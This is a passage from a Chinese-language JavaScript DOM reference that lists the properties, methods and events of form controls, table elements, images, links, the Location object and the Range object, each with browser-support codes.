- `form` -- 对 `FORM` 对象的引用。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回：* 表单对象引用，只读。
- `name` -- 获取并设置 name 属性。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。
- `type` -- 指明元素的类型（例如：按钮、提交、重置）。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+） *返回：* 字符串，只读。

## BUTTON、SUBMIT 和 RESET 对象

这些对象表示相应的表单元素。

### 属性

- `value` -- 在按钮情况下，它是起始标签和结束 `BUTTON` 标签之间的文本。在 `SUBMIT` 和 `RESET` 对象中，它是 value 属性的直接值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 字符串，读/写。

### 方法

- `click()` -- 模拟点击并触发 onclick 事件。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）

### 事件

- `onclick` -- 返回 onclick 事件的处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `onmousedown` -- 指明鼠标按键被按下时机。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+）
- `onmouseup` -- 返回 onmouseup 事件的处理代码。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+）

## CHECKBOX 和 RADIO 对象

这些对象表示多选和单选输入。

### 属性

- `checked` -- 告知你选框或单选框是否被选中。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 布尔值，读写。
- `defaultChecked` -- 复选框的默认选中状态。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 布尔值，只读。
- `type` -- 帮助你从未知的元素组中识别复选框或单选框。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+） *返回：* 字符串，只读。
- `value` -- 返回复选框或单选框的值。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。

### 方法

- `click()` -- 模拟点击并触发 onclick 事件。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

### 事件

- `onclick` -- 返回 onclick 事件的处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

## IMAGE 对象

`IMAGE` 对象表示 IMAGE 元素。

### 属性

- `complete` -- 如果图像完成加载，则报告真。（支持: IE4+） *返回：* 布尔值，只读。
- `src` -- 显示的图像 URL。（支持: CH1+, FF1+, IE4+, NN5+, O6+, SF1+） *返回：* 字符串，读/写。

## TEXT、PASSWORD 和 HIDDEN 对象

这些属性提供给所有的 `TEXT`、`PASSWORD` 和 `HIDDEN` 表单元素。

### 属性

- `defaultValue` -- 元素的原始值。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，只读。
- `maxLength` -- 文本框允许的最大字符数。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 整数，读/写。
- `readOnly` -- 当设置为 true 时，用户无法更改字段内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 布尔值，读/写。
- `size` -- 输入框的字符宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 整数，读/写。
- `value` -- 字段的文本内容。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，读/写。

### 方法

- `blur()` -- 使元素失去焦点并触发 onblur 事件。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `focus()` -- 给当前元素键盘焦点，并触发 onfocus 事件。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `select()` -- 选中输入中的所有文本。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

### 事件

- `onafterupdate` -- 返回 `onafterupdate` 事件的事件处理代码。（支持: IE4+）
- `onbeforeupdate` -- 返回 `onbeforeupdate` 事件的事件处理代码。（支持: IE4+）
- `onblur` -- 返回 `blur` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `onchange` -- 返回 `onchange` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `onerrorupdate` -- 返回 `onerrorupdate` 事件的事件处理代码。（支持: IE4+）
- `onfocus` -- 返回 `onfocus` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `onselect` -- 当文本框或文本区域内的文本被选中时触发。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

## TEXTAREA 对象

此对象代表表单 `<textarea>` 元素。

### 属性

- `cols` -- 元素按字符列数的大小。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `rows` -- 元素按文本行数的大小。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `wrap` -- 指定 textarea 如何换行。值包括 soft（软换行）、hard（硬换行）和 off（不换行）。（支持: IE4+） *返回:* 字符串，可读/写。

### 方法

- `createTextRange()` -- 为该元素创建一个 `TextRange` 对象，用于控制文本插入点。（支持: IE4+） *返回:* TextRange 对象。
- `select()` -- 将选取输入中的所有文本。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）

### 事件

- `onafterupdate` -- 返回 `onafterupdate` 事件的事件处理代码。（支持: IE4+）
- `onbeforeupdate` -- 返回 `onbeforeupdate` 事件的事件处理代码。（支持: IE4+）
- `onchange` -- 返回 `onchange` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `onerrorupdate` -- 返回 `onerrorupdate` 事件的事件处理代码。（支持: IE4+）

## SELECT 对象

此对象代表表单 SELECT 对象。表单 SELECT 可以多选或单选，并包含多个 OPTION 元素。

### 属性

- `length` -- 返回元素中的项目数量。对于表单，这是表单元素数量；对于 SELECT 框，这是 OPTION 字段；对于 History 对象，这是条目的数量。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 整数，可读/写。
- `multiple` -- 一个布尔值，影响是否可以从输入中进行多选。（支持: CH1+, FF1+, IE4+, NN6+, O3+, SF1+） *返回:* 布尔值，可读/写。
- `selectedIndex` -- 对应列表中选中项目的从 0 开始的数字。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 整数，可读/写。
- `size` -- 输入框的宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `value` -- 分配给项目 value 属性的字符串。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，可读/写。
- `options[]` -- 代表 OPTION 元素的数组。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 元素数组，只读。

### 方法

- `add(newOptionRef[, index])` -- 用于向列表添加新项目。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+）
- `item()` -- 用于访问控件内部的嵌套 option 元素。（支持: IE5+） *返回:* option 元素引用。
- `namedItem(optionID)` -- 从选项集合中检索一个对象。（支持: IE5+） *返回:* option 元素引用。
- `remove(index)` -- 从集合中删除一个元素。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）

### 事件

- `onchange` -- 返回 `change` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

## FILE 对象

FILE 对象代表表单中的文件上传元素。

### 属性

- `defaultValue` -- 元素的原始值。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 字符串，只读。
- `readOnly` -- 设置为 true 时，用户无法更改字段内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 布尔值，可读/写。
- `size` -- 输入框的宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `type` -- 描述输入的类型。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 字符串，只读。
- `value` -- 字段的内容。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 字符串，可读/写。

### 方法

- `select()` -- 将选取输入中的所有文本。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

### 事件

- `onchange` -- 返回 `change` 事件的事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

# HTML 表格参考

这对应于标准的 HTML `<table>` 元素。

## 属性

- `align` -- 设置或获取对象与相邻文本的对齐方式。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+） *返回:* 字符串（center, left, right），可读/写。
- `background` -- 设置或获取对象中文本和图形后平铺背景图片的 URL。（支持: IE4+） *返回:* URL 字符串，可读/写。
- `bgColor` -- 设置或获取对象后背景颜色的值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，可读/写。
- `border` -- 设置或获取在对象周围绘制的属性。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `borderColor` -- 设置边框颜色。（支持: IE4+） *返回:* 字符串，可读/写。
- `borderColorDark` -- 设置或获取用于绘制对象 3D 边框的两种颜色中的一种。（支持: IE4+） *返回:* 字符串，可读/写。
- `borderColorLight` -- 设置或获取用于绘制对象 3D 边框的两种颜色中的一种。（支持: IE4+） *返回:* 字符串，可读/写。
- `caption` -- 获取表格的标题对象。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回:* caption 对象，可读/写。
- `cellPadding` -- 设置或获取单元格边界与单元格内容之间的空间。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `cells` -- 获取表格行或整个表格中所有单元格的集合。（支持: IE5+） *返回:* 数组，只读。
- `cellSpacing` -- 设置或获取表格中单元格之间的空间。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `cols` -- 设置或获取表格的列数。（支持: IE4+） *返回:* 整数，可读/写。
- `dataPageSize` -- 设置或获取绑定到数据源的表格中显示的记录数。（支持: IE4+） *返回:* 整数，可读/写。
- `frame` -- 指定表格的哪些边有边框。有效值包括 void, above, below, hsides, lhs, rhs, box 和 border。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串常量，可读/写。
- `height` -- 获取并设置表格的高度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。
- `rows` -- 返回表格中所有行的集合。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* Row 对象的数组，只读。
- `rules` -- 设置或获取显示哪些分割线（内部边框）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串常量，可读/写。
- `summary` -- 获取并设置表格描述。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回:* 字符串，可读/写。
- `tBodies` -- 返回表格主体的集合。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回:* tbody 元素数组，只读。
- `tFoot` -- 返回表格的 TFOOT 元素。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 行段对象，可读/写。
- `tHead` -- 返回表格的 THEAD 元素。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 行段对象，可读/写。
- `width` -- 获取并设置表格的宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 整数，可读/写。

## 方法

- `createCaption()` -- 为表格创建一个新标题。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 新标题的引用。
- `createTFoot()` -- 为表格创建一个新的 TFOOT（表格页脚）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 元素引用。
- `createTHead()` -- 为表格创建一个新的 THEAD（表格表头）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 元素引用。
- `deleteCaption()` -- 删除表格标题。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `deleteRow(rowIndex)` -- 删除一行。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `deleteTFoot()` -- 删除表格页脚。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `deleteTHead()` -- 删除表格表头。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `firstPage()` -- 显示表格所绑定数据集中的第一页记录。（支持: IE5+）
- `insertRow()` -- 插入新行。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* Row 对象的引用。
- `lastPage()` -- 显示表格所绑定数据集中的最后一页记录。（支持: IE5+）
- `moveRow(sourceRowIndex, destinationRowIndex)` -- 将表格行移动到新位置。（支持: IE5+） *返回:* Row 元素对象。
- `nextPage()` -- 显示表格所绑定数据集中的下一页记录。（支持: IE4+）
- `previousPage()` -- 显示表格所绑定数据集中的上一页记录。（支持: IE4+）
- `refresh()` -- 刷新表格内容。（支持: IE4+）

## tbody, tfoot, and thead 对象引用

这些对象分别代表表格主体区域、页脚和表头的 HTML 元素。

### 属性

- `align` -- 设置或获取对象与相邻文本的对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串（center, left, right），可读/写。
- `bgColor` -- 设置或获取对象后背景颜色的值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，可读/写。
- `ch` -- 代表用于对齐列或列组内单元格内容的可选 char 属性。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回:* 字符串，可读/写。
- `chOff` -- 代表用于对齐列或列组内单元格内容的可选 charoff 属性。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回:* 字符串，可读/写。
- `rows` -- 返回表格中所有行的集合。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* Row 对象的数组，只读。
- `vAlign` -- 控制对象内部文本的垂直对齐。有效值包括 top, middle 和 bottom。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串常量，可读/写。

### 方法

- `deleteRow(rowIndex)` -- 删除一行。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `insertRow()` -- 插入新行。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* Row 对象的引用。
- `moveRow(sourceRowIndex, destinationRowIndex)` -- 将表格行移动到新位置。（支持: IE5+） *返回:* Row 元素对象。

## caption 对象引用

caption 对象代表表格标题的元素。

### 属性

- `align` -- 设置或获取对象与相邻文本的对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串（center, left, right），可读/写。
- `vAlign` -- 控制对象内部文本的垂直对齐。有效值包括 top, middle 和 bottom。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串常量，可读/写。

## col 和 colgroup 对象引用

col 对象代表用于分组列属性规范的 HTML 元素（不是用于在结构上分组列）。对于结构上的列分组，请使用 colgroup 元素（及相应的对象）。

### 属性

- `align` -- 设置或获取对象与相邻文本对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String (center, left, right)，可读写。
- `ch` -- 代表可选的 `char` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `chOff` -- 代表可选的 `charoff` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `span` -- 代表列组应跨的列数。与 `colSpan` 不同。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，可读写。
- `vAlign` -- 控制对象内部文本的垂直对齐。有效值包括 top（顶部）、middle（中间）和 bottom（底部）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String Constant，可读写。
- `width` -- 设置 colgroup 内部所有列的预期宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。

## tr 对象引用

代表表格行的 HTML 元素。

### 属性

- `align` -- 设置或获取对象与相邻文本对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String (center, left, right)，可读写。
- `bgColor` -- 设置或获取一个指示对象背景颜色的值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `borderColor` -- 设置边框颜色。（支持: IE4+） *返回：* String，可读写。
- `borderColorDark` -- 设置或获取用于绘制对象 3D 边框的两种颜色之一。（支持: IE4+） *返回：* String，可读写。
- `borderColorLight` -- 设置或获取用于绘制对象 3D 边框的两种颜色之一。（支持: IE4+） *返回：* String，可读写。
- `cells` -- 获取表格行或整个表格中所有单元格的集合。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* td 元素对象的数组，只读。
- `ch` -- 代表可选的 `char` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `chOff` -- 代表可选的 `charoff` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `height` -- 设置行的预期高度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer 或 String，可读写。
- `rowIndex` -- 获取对象在表格行集合中的位置。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，只读。
- `sectionRowIndex` -- 获取对象在 `tBody`、`tHead`、`tFoot` 或行集合中的位置。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，只读。
- `vAlign` -- 控制对象内部文本的垂直对齐。有效值包括 top（顶部）、middle（中间）和 bottom（底部）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String Constant，可读写。

### 方法

- `deleteCell(cellIndex)` -- 删除指定索引处的单元格。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `insertCell(cellIndex)` -- 在指定索引处插入单元格。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 新单元格引用。

## td 和 th 对象引用

td 和 th 对象分别代表表格单元格和表头单元格的 HTML 元素。

### 属性

- `abbr` -- 设置或获取对象的缩写文本。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回：* String，可读写。
- `align` -- 设置或获取对象与相邻文本对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String (center, left, right)，可读写。
- `axis` -- 设置或获取与对象相关的以逗号分隔的逻辑分类列表。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回：* String，可读写。
- `background` -- 设置或获取对象中文本和图形后面平铺背景图片的 URL。（支持: IE4+） *返回：* URL String，可读写。
- `bgColor` -- 设置或获取一个指示对象背景颜色的值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+）
- `borderColor` -- 设置边框颜色。（支持: IE4+） *返回：* String，可读写。
- `borderColorDark` -- 设置或获取用于绘制对象 3D 边框的两种颜色之一。（支持: IE4+） *返回：* String，可读写。
- `borderColorLight` -- 设置或获取用于绘制对象 3D 边框的两种颜色之一。（支持: IE4+） *返回：* String，可读写。
- `cellIndex` -- 获取对象在行单元格集合中的位置。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，只读。
- `ch` -- 代表可选的 `char` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `chOff` -- 代表可选的 `charoff` 属性，用于在列或列组内对齐单元格内容。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String，可读写。
- `colSpan` -- 设置或获取对象应跨的表格列数。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，可读写。
- `headers` -- 设置或获取提供对象信息的表头单元格列表。（支持: CH1+, FF1+, IE6+, NN6+, O8+, SF1+） *返回：* String，可读写。
- `height` -- 设置单元格的预期高度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer 和 String，可读写。
- `noWrap` -- 设置或获取浏览器是否自动执行换行。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Boolean，可读写。
- `rowSpan` -- 设置或获取单元格应跨的表格行数。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer，可读写。
- `vAlign` -- 控制对象内部文本的垂直对齐。有效值包括 top（顶部）、middle（中间）和 bottom（底部）。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String Constant，可读写。
- `width` -- 设置单元格的预期宽度。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* Integer 和 String，可读写。

## 属性

- `align` -- 设置或检索对象与相邻文本的对齐方式。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `alt` -- 设置或检索图形的替代文本。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `border` -- 设置或检索在对象周围绘制框的属性。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+） *返回:* 整数，读/写。
- `complete` -- 如果图像已完成加载则返回 true。（支持: FF1+, IE4+, NN3+） *返回:* 布尔值，读/写。
- `dynsrc` -- （支持: IE4, IE5, IE5.5, IE6） *返回:* 字符串，读/写。
- `fileCreatedDate` -- 获取文件的创建日期。（支持: IE4+） *返回:* 字符串，只读。
- `fileModifiedDate` -- 获取文件最后修改的日期。（支持: IE4+） *返回:* 字符串，只读。
- `fileSize` -- 获取文件大小。（支持: IE4+） *返回:* 整数，只读。
- `fileUpdatedDate` -- 获取文件最后更新的日期。（支持: IE4+） *返回:* 字符串，只读。
- `height` -- 设置或获取图像的当前高度。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+） *返回:* 整数，读/写。
- `hspace` -- 一非 CSS 控制对象周围水平边距的方法。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+） *返回:* 整数，读/写。
- `isMap` -- 设置或检索图像是否为图像地图。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 布尔值，读/写。
- `longDesc` -- 一个可访问性属性，提供指向包含对象详细描述文档的 URL。（支持: CH1+, FF1+, IE6+, NN6+, O6+, SF1+） *返回:* 整数，读/写。
- `loop` -- 设置或检索声音或视频片段激活时循环的次数。（支持: IE4, IE5, IE5.5, IE6） *返回:* 整数，读/写。
- `lowsrc` -- 设置或检索用于显示的低分辨率图像。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+） *返回:* 字符串，读/写。
- `mimeType` -- 如果已定义，返回元素链接的文档的 mimeType。（支持: IE6+） *返回:* 字符串，只读。
- `name` -- 获取并设置 name 属性。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 字符串，读/写。
- `nameProp` -- 文档的标题。（支持: IE5+） *返回:* 字符串，只读。
- `naturalHeight` -- 图像未缩放的原始高度。（支持: FF1+, NN6+） *返回:* 整数，只读。
- `naturalWidth` -- 图像未缩放的原始宽度。（支持: FF1+, NN6+） *返回:* 整数，只读。
- `protocol` -- 设置或检索 URL 的协议部分。（支持: IE4+） *返回:* 字符串，只读。
- `src` -- 正在显示的图像的 URL。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+） *返回:* URL 字符串，读/写。
- `start` -- 设置或检索视频片段文件应何时开始播放。（支持: IE4, IE5, IE5.5, IE6） *返回:* 字符串，读/写。
- `useMap` -- 设置或检索 URL（通常带有书签扩展名），用作客户端图像地图。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `vspace` -- 一非 CSS 控制对象周围垂直边距的方法。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+） *返回:* 整数，读/写。
- `width` -- 设置或获取图像的当前宽度。（支持: CH1+, FF1+, IE4+, NN3+, O4+, SF1+） *返回:* 整数，读/写。
- `x` -- 图像的水平坐标。（支持: FF1+, NN4+, SF1+） *返回:* 整数，只读。
- `y` -- 图像的垂直坐标。（支持: FF1+, NN4+, SF1+） *返回:* 整数，只读。

## 事件

- `onabort` -- 当用户取消下载图像时触发。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+）
- `onerror` -- 当对象加载期间发生错误时触发。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+）
- `onload` -- 返回 onload 事件（当图像加载时）事件处理代码。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）

# 链接和锚点对象引用

所有超链接。

## 属性

- `charset` -- 设置或检索链接使用的字符集。（支持: CH1+, FF1+, IE6+, NN6+, O7+） *返回:* 字符串，读/写。
- `coords` -- 使用图像地图时，触发点击的坐标。（支持: CH1+, FF1+, IE4+, NN6+, O6+） *返回:* 字符串，读/写。
- `hash` -- URL 中跟在 # 符号后面的部分。（支持: CH1+, FF1+, IE3+, NN2+, O4+） *返回:* 字符串，读/写。
- `host` -- 主机名和端口号。（支持: IE4+） *返回:* 字符串，读/写。
- `hostname` -- 不带端口的主机名。（支持: CH1+, FF1+, IE3+, NN2+, O4+） *返回:* 字符串，读/写。
- `href` -- 链接的完整 URL。（支持: CH1+, FF1+, IE3+, NN2+） *返回:* 字符串。
- `hreflang` -- 链接内容的语言。（支持: CH1+, FF1+, IE6+, NN6+, O7+） *返回:* 字符串，读/写。
- `methods` -- 告知浏览器使用哪些 HTTP 方法。（支持: IE4+） *返回:* 字符串，读/写。
- `pathname` -- 相对于主机的路径。（支持: CH1+, FF1+, IE3+, NN2+, O4+） *返回:* 字符串，读/写。
- `port` -- URL 的端口号。（支持: CH1+, FF1+, IE3+, NN2+, O4+） *返回:* 字符串，读/写。
- `protocol` -- URL 的协议部分。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回:* 字符串，读/写。
- `rel` -- 设置或检索对象与目标之间的关系。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `rev` -- 设置或检索对象与目标之间的（反）关系。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `search` -- URL 中跟在 ? 符号后面的部分，包括 ? 符号。（支持: CH1+, FF1+, IE3+, NN2+, O4+） *返回:* 字符串，读/写。
- `shape` -- 当链接使用图像地图时，形状指的是区域的形状。（支持: CH1+, FF1+, IE6+, NN6+, O6+, SF1+） *返回:* 字符串，读/写。
- `target` -- 链接中 target 属性提供的窗口名称。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 字符串，读/写。
- `type` -- 设置或检索对象的 MIME 类型。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回:* 字符串，读/写。
- `urn` -- 为目标文档设置或获取统一资源名称（URN）。（支持: IE4+） *返回:* 字符串，读/写。

# Location 对象引用

Location 对象是窗口对象的成员，并以组件化的方式访问文档的 URL。

## 属性

- `hash` -- URL 中紧跟在 # 符号的部分，包括符号本身。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `host` -- 主机名和端口号。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `hostname` -- 主机名（不包含端口号）。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `href` -- 引用的完整 URL。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `pathname` -- 路径（相对于主机）。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `port` -- URL 的端口号。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `protocol` -- 设置或获取 URL 的协议部分。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。
- `search` -- URL 中紧跟在 ? 符号之后的部分，包括 ? 符号。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回值：* 字符串，读/写。

## 方法

- `assign(URL)` -- 加载指定 URL 的文档。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `reload(unconditionalGetBoolean)` -- 从当前 URL 重新加载文档。（支持: CH1+, FF1+, IE4+, NN3+, O6+, SF1+）
- `replace(URL)` -- 用指定 URL 的文档替换当前文档。（支持: CH1+, FF1+, IE4+, NN3+, O6+, SF1+）
- `toString()` -- 返回 Location 对象 URL 的字符串表示。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 字符串。

# Range 对象引用

Range 对象是微软对文档连续区域的表示——类似于选择。此对象在某种程度上对应 W3C TextRange。请参见第 13 章：文档对象模型以获取关于范围更完整的解释。

## 属性

- `collapsed` -- 返回布尔值，表示范围的起点和终点是否在同一位置。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* 布尔值，只读。
- `commonAncestorContainer` -- 返回包含 `startContainer` 和 `endContainer` 节点的深层节点。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* DOM 节点，只读。
- `endContainer` -- 返回 Range 结束所在的节点。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* DOM 节点，只读。
- `endOffset` -- 返回一个数字，表示 Range 在 `endContainer` 中的结束位置。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* 整数，只读。
- `intersectsNode` -- 返回布尔值，表示给定节点是否与范围相交。Mozilla 专用。已弃用。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值：* 布尔值。
- `startContainer` -- 返回 Range 开始所在的节点。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* DOM 节点，只读。
- `startOffset` -- 返回一个数字，表示 Range 在 `startContainer` 中的起始位置。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* 整数，只读。

## 方法

